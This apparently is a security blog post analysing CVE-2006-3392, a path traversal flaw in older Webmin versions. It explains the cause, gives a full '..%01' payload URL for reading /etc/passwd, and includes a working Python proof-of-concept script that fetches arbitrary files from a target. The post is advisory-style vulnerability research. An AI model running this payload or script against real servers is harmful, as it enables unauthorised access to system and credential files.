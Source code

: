 ```yaml
---
layout: post
title: "Analysis of CVE-2006-3392: path traversal in  Webmin"
date: 2024-11-01
---
```


[CVE-2006-3392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392)\[1\] is a [path traversal vulnerability](https://owasp.org/www-community/attacks/Path_Traversal)\[3\] identified in [Webmin](https://webmin.com)\[2\], a web-based configuration system for Unix-like systems, affecting versions prior to 1.290. This vulnerability arises because the \`simplify\_path\` function is invoked before HTML decoding. By crafting a sequence of bytes such as "..%01", an attacker can bypass the removal of "../" sequences to the left of certain bytes (e.g., "%01"), enabling unauthenticated and unauthorized access to the contents of internal server files. The vulnerability was published by Kenny Chen on June 30, 2006\.  

This publication is also available in: [Portuguese](https://blog.lesis.lat/blog/CVE-2006-3392/)

---

**Description**

Webmin is a web-based configuration tool for Unix-like systems that allows the configuration of internal system resources, including users, disks, services, and file settings. Additionally, it also allows for the modification and control of open-source programs such as Apache HTTP Server, PHP, and MySQL, among others.

The vulnerability in question is a path traversal caused by the \`simplify\_path`` ` `` function being executed before HTML decoding. By using a sequence of "..%01", an attacker can bypass the removal of "../" sequences, enabling unauthenticated and unauthorized access to the contents of internal server files. This flaw allows unauthenticated attackers to read files from within the system through a URL containing a specially crafted payload.

The endpoint for the path traversal is located in the "/unauthenticated" directory. The payload can be constructed as follows:

[http://vuln-website.com/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd](http://vuln-website.com/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd)  

---

**Proof of Concept**

```python
#!/usr/bin/env python3  
import requests  
import argparse  
import re  
def exploit(url, file):  
    if not re.match(r'^https?://', url):  
        url \= f"https://{url}"  
    payload \= "/unauthenticated" \+ "/..%01" \* 20  
    try:  
        if file is None:  
            file \= "/etc/passwd"  
        response \= requests.get(url \+ payload \+ file)  
        print(response.text)  
    except requests.exceptions.RequestException as e:  
        print(f"Error making request for {url} \-\> {e.reason}")  
def main():  
    parser \= argparse.ArgumentParser(description="CVE-2006-3392")  
    parser.add\_argument("-t", "--target", required=True)  
    parser.add\_argument("-f", "--file")  
    args \= parser.parse\_args()  
    try:  
        exploit(args.target, args.file)  
    except KeyboardInterrupt:  
         exit(1)  
    except EOFError:  
         exit(1)  
if \_\_name\_\_ \== '\_\_main\_\_':  
    main()
```

---

**Impact**

The impact of this vulnerability is considered high-risk, as it allows an unauthenticated user to access sensitive information stored on the server. This access can provide in-depth knowledge of the system's structure and configuration, facilitating a complete compromise of the system and its applications.  

---

**Conclusion**

The vulnerability in Webmin, a web-based configuration interface for Unix-like systems, results from improper handling of  ".." sequences. This issue arises because the \`simplify\_path\` function is called before HTML decoding, enabling internal system files to be read through a path traversal attack.

The specific payload exploits this flaw by using the "..%01" sequence in the URL, granting access to sensitive files such as "/etc/passwd". Therefore, it is crucial for system administrators to be aware of this vulnerability and take immediate action to update Webmin on legacy systems to mitigate risks and protect their servers.

---

**References**

* \[1\] [MITRE \- CVE-2006-3392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392)   
* \[2\] [Webmin](https://webmin.com)  
* \[3\] [OWASP \- Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
